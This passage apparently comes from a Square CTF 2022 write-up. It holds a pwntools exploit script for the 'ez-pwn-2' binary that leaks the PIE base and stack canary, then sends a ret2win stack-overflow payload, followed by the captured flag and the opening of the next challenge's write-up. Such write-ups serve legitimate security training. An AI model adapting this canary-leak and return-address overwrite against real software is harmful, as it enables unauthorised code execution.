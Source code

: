 ```
    data = p.readline().decode().strip()
    print(data)
    ret = int('0x' + data, 16)
    return ret

if __name__ == '__main__':
    local = False
    global p
    if local:
        p = process('./ez-pwn-2')
    else:
        p = remote('chals.2022.squarectf.com', 4101)

    print(p.recvuntil(b': '))
    BUF = int(p.readline(), 16)
    RET = BUF + 0x20 + 8

    MAIN = int('0x'+conv(leak(RET)), 16)
    PIE_BASE = MAIN - 2593
    print(hex(PIE_BASE))

    ## leak canary
    print(p.recvuntil(b': '))
    BUF = int(p.readline(), 16)
    CANARY_ADDR = BUF + 0x20 - 8
    CANARY = int('0x'+conv(leak(CANARY_ADDR)), 16)
    print('Canary:')
    print(hex(CANARY))
    
    ## ret2win
    WIN = PIE_BASE + 2295
    p.readuntil(b'bytes:')
    print(len(conv(RET).encode() + b'00'*2))
    
    print(b'\x00' + p64(CANARY)[:-1])
    print(hex(CANARY))
    print(conv(CANARY))
    
    # canary: rbp-0x8 = rbp-8
    # buf: rbp-0x20 = rbp-32
    p.sendline(conv(RET).encode() + b'00'*2 + b'A'*8 + b'\x00' + p64(CANARY)[:-1] + b'A'*8 + p64(WIN))

    p.interactive()
```

Flag: `flag{delphi_aint_got_nothin_on_printf}`

## 3 item menu (pwn + crypto: 300)

The binary has partial RELRO, no canary, and no PIE. This means we know the addresses within the binary. Now let's look at the reversed code:
